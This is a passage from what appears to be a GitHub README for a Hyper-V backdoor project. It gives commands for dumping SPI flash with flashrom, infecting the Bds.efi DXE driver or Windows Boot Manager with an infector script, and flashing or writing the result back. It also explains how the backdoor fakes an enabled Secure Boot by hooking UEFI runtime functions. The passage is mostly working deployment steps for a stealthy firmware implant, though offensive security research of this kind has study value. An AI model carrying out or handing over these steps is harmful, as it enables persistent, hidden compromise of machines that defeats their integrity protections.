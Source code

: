 <img src="https://raw.githubusercontent.com/Cr4sh/s6_pcie_microblaze/master/docs/images/spi_probe.jpg" width="650">

It’s more convenient to use SOIC8 test clip than probe hook clips, but very often there’s not enough free space around the chip to place test clip. Flash chip must be connected to the channel A of FT2232 Mini Module by the following scheme:

<img src="https://raw.githubusercontent.com/Cr4sh/s6_pcie_microblaze/master/docs/images/spi_wiring.png" width="542">

Now you can read flash chip contents using Flashrom:

```
> flashrom -p ft2232_spi:type=2232H,port=A –r firmware.bin
```

After that you need to open dumped firmware in UEFITool, locate arbitrary UEFI DXE driver to infect and extract its PE32 image section from the firmware image:

<img src="https://raw.githubusercontent.com/Cr4sh/s6_pcie_microblaze/master/docs/images/uefi_tool.png" width="721">

For example, I picked `Bds.efi` DXE driver responsible for boot device selection as pretty much suitable one. Then you can infect extracted driver with Hyper-V Backdoor using `infector.py` program:

```
> python infector.py --dxe-driver DmaBackdoorHv_X64.efi --infect Bds.efi --output Bds_infected.efi
```

After that you have to replace original driver image with `Bds_infected.efi` one in UEFITool, save resulting firmware image and flash it back into the chip:

```
> flashrom -p ft2232_spi:type=2232H,port=A –w firmware_infected.bin
```

## Deploying the backdoor using Windows boot manager infection

In case when you don't have any specialized hardware and also when signed Kaspersky bootloader can't be used on your system with Secure Boot enabled you can just disable Secure Boot and deploy Hyper-V Backdoor using Windows Boot Manager image file infection. In this case Hyper-V Backdoor driver will emulate enabled Secure Boot by hooking of UEFI runtime functions so infected system will able to load all virtualization-based security features just as usual.  

To infect Windows Boot Manager you have to perform the following steps.  

Mount EFI system partition where Windows Boot Manager image file is stored:

```
C:\> mountvol S: /S
```

Backup original image file:

```
C:\> copy S:\EFI\Microsoft\Boot\bootmgfw.efi S:\EFI\Microsoft\Boot\bootmgfw_orig.efi
```

Infect original image file with Hyper-V Backdoor:

```
C:\> python .\infector.py --patch-integrity-checks --dxe-driver .\DmaBackdoorHv_X64.efi ^ 
     --infect S:\EFI\Microsoft\Boot\bootmgfw_orig.efi ^
     --output S:\EFI\Microsoft\Boot\bootmgfw.efi

[+] Target image to infect: S:\EFI\Microsoft\Boot\bootmgfw_orig.efi
[+] DXE driver: .\DmaBackdoorHv_X64.efi
[+] Output file: S:\EFI\Microsoft\Boot\bootmgfw.efi
Original entry point RVA is 0x0001fbd0
Original .reloc virtual size is 0x00000d80
Original image size is 0x001bf000
Characteristics of .reloc section was changed to RWX
New entry point RVA is 0x001bfe44
```